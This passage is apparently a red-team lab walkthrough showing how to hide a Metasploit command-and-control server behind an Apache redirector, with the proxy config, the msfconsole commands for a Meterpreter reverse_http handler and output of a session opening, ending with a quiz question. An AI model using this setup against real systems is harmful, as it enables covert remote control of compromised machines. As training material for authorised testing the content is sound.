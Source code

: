 **Modified Apache2 Config**

```
root@kali$  cat /etc/apache2/sites-available/000-default.conf  | grep -v '#'<VirtualHost *:80>ServerAdmin webmaster@localhostDocumentRoot /var/www/htmlRewriteEngine OnRewriteCond %{HTTP_USER_AGENT} "^NotMeterpreter$"ProxyPass "/" "http://localhost:8080/"<Directory>AllowOverride All</Directory>ErrorLog ${APACHE_LOG_DIR}/error.logCustomLog ${APACHE_LOG_DIR}/access.log combined</VirtualHost>
```

**Setting Up Exploit/Multi/Handler**

To set up Meterpreter properly, we need to make a few modifications; We must set our LHOST argument to the incoming interface that we are expecting connections from, in our lab; this will be 127.0.0.1. In the real world, this will be your public interface that your Redirector will be connecting to (aka your Public IP Address), and the LPORT will be whatever you like. For the lab, we will be using TCP/8080; this can be whatever you like in production. As always, the best practice is to run services over their standard protocols, so HTTP should run on port 80, and HTTPS should run on port 443. These options will also need to be duplicated for ReverseListenerBindAddress and ReverseListenerBindPort.

Next, we need to set up OverrideLHOST — This value will be your redirector’s IP Address or Domain Name. After that, we need to set the OverrideLPORT; this will be the port that the HTTP _or_ HTTPS is running on, on your Redirector. Lastly, we must set the OverrideRequestHost to true. This will make Meterpreter respond with the OverrideHost information, so all queries go through the Redirector and not your C2 server. Now that you understand what must be configured, let’s dive into it:

**Metasploit Redirector**

```
root@kali$ msfconsolemsf6 > use exploit/multi/handler [*] Using configured payload generic/shell_reverse_tcpmsf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_httppayload => windows/meterpreter/reverse_httpmsf6 exploit(multi/handler) > set LHOST 127.0.0.1LHOST => 127.0.0.1msf6 exploit(multi/handler) > set LPORT 8080LPORT => 8080msf6 exploit(multi/handler) > set ReverseListenerBindAddress 127.0.0.1ReverseListenerBindAddress => 127.0.0.1msf6 exploit(multi/handler) > set ReverseListenerBindPort 8080ReverseListenerBindPort => 8080msf6 exploit(multi/handler) > set OverrideLHOST 192.168.0.44OverrideLHOST => 192.168.0.44msf6 exploit(multi/handler) > set OverrideLPORT 80OverrideLPORT => 80msf6 exploit(multi/handler) > set HttpUserAgent NotMeterpreterHttpUserAgent => NotMeterpretermsf6 exploit(multi/handler) > set OverrideRequestHost trueOverrideRequestHost => truemsf6 exploit(multi/handler) > run[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?[*] Started HTTP reverse handler on http://127.0.0.1:8080[*] http://127.0.0.1:8080 handling request from 127.0.0.1; (UUID: zfhp2nwt) Staging x86 payload (176220 bytes) ...[*] Meterpreter session 3 opened (127.0.0.1:8080 -> 127.0.0.1 ) at 2022-02-11 02:09:24 -0500
```

After this has all been set up, running your Meterpreter Reverse Shell should now proxy all communications through your Redirector! For awareness, the diagram below is how our Redirector is set up in our lab; as a reminder, in engagements, you will want to use **multiple** hosts and DNS records instead of IP Addresses.

![](https://miro.medium.com/v2/resize:fit:922/0*44TkqphaNI_Fqrcu.png)

_Lab Redirector Setup_

**Answer the questions below**

> What setting name that allows you to modify the User Agent field in a Meterpreter payload?
